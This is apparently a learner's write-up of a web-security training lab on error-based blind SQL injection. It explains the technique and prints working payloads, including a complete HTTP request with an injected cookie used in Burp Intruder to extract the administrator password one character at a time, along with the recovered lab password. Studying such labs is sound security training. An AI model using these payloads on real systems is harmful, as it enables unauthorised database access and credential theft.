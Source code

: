 ```yaml
---
tags: ["sqli"]
---
```


## Condition based Sql injection

In the preceding example, suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data. The preceding technique will not work, because injecting different Boolean conditions makes no difference to the application's responses.

In this situation, it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Challenge

--> i added this payload in intruder

```bash
GET /filter?category=Tech+gifts HTTP/1.1
Host: acea1f411f956f08807e2da400290063.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=wkQ0FTyX6kLxoXL0'||(SELECT CASE WHEN (SUBSTR(password,§1§,1)='§m§') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'; session=ULjDh6MI3mR1TiRhqUDd2ls5ixNrVWLm
Upgrade-Insecure-Requests: 1
```

--> and i got this results

![](Attachments/Pastedimage20211003074958.png)

--> after assembling them i got this password :

`8vzkeohgdu9ilptqy1wd`

![](Attachments/Pastedimage20211003073612.png)
